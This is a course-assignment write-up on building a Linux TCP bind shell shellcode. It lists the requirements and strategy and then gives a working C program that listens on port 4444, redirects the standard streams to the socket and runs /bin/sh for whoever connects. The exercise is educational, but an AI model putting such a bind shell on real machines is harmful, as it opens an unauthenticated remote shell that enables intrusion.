 <div id="table-of-contents">
<h2>Table of Contents</h2>
<div id="text-table-of-contents">
<ul>
<li><a href="#sec-1">1. Assignment 1</a>
<ul>
<li><a href="#sec-1-1">1.1. Requirements</a></li>
<li><a href="#sec-1-2">1.2. Strategy</a></li>
<li><a href="#sec-1-3">1.3. The C program</a></li>
</ul>
</li>
</ul>
</div>
</div>

# Assignment 1<a id="sec-1" name="sec-1"></a>

## Requirements<a id="sec-1-1" name="sec-1-1"></a>

-   Create a Shell<sub>Bind</sub><sub>TCP</sub> shellcode
    -   Bind to a port
    -   Execs Shell on incoming connection
-   Port number should be easily configurable

## Strategy<a id="sec-1-2" name="sec-1-2"></a>

My approach to building a tcp bind shell shellcode will be to:

-   Create a C program which illustrates the basic functionality
-   Analyze the C program system calls to see how the program interacts with the kernel to accomplish its tasks
-   Lookup the system calls and see what arguments and structures they take
-   Attempt to write some assembly that calls the same system calls in the same order with the same arguments as the C program does
-   Debug issues as of course there will be :)

## The C program<a id="sec-1-3" name="sec-1-3"></a>

From my experience playing around with socket programming in C and
Python, there is a basic formula and group of function calls for
creating clients and servers. Most of them will be useful to us. A
couple won't be applicable to our situation.  The functions we will
find useful are:

-   Socket: Open a socket over which we will communicate. Essentially a file descriptor
-   Bind: Bind our socket to an interface on our system
-   Listen: Tell our system that we are ready to start accepting connections
-   Accept: Accept the connection. This is a necessary next step as listen will generally queue up connections in anticipation of them being accepted

Functions we won't worry about:

-   Send
-   Recv
-   Connect
-   Close

We won't worry about send or recv because they are used for managing
the flow of data coming in and out and acting accordingly.  We are
instead going to just redirect stdin, stdout, and stderr over the
socket using a function called dup2 and not worry about managing the
flow of data. Since we aren't connecting to another system/server we
don't need to worry about connect. And as for close, it is generally
good practice to close files after your done with them but one leaked
file descriptor won't hurt anyone right? We need to trim the fat!

So lets get some code going!

    #include <stdio.h>
    #include <netinet/in.h>
    #define PORT 4444
    
    int main(int argc, char **argv)
    {
      // Create a socket
      int lsock = socket(AF_INET, SOCK_STREAM, 0);
    
      // Setup servr side config struct
      // We configure:
      // The family:IPv4
      // The interface: 0.0.0.0 (any)
      // The port: port#
      struct sockaddr_in config;
      config.sin_family = AF_INET;
      config.sin_addr.s_addr = INADDR_ANY;
      config.sin_port = htons(PORT);
    
      // Bind the created socket with the interface
      // specified in the configuration
      bind(lsock, (struct sockaddr *)&config, sizeof(config));
    
      // Listen on the socket
      listen(lsock, 0);
    
      // Accept the incoming connection
      int csock = accept(lsock, NULL, NULL);
      // Redirect stdin, stdout, and stderror
      dup2(csock, 0);
      dup2(csock, 1);
      dup2(csock, 2);
    
      // Execute a shell
      execve("/bin/sh", NULL, NULL);
    };
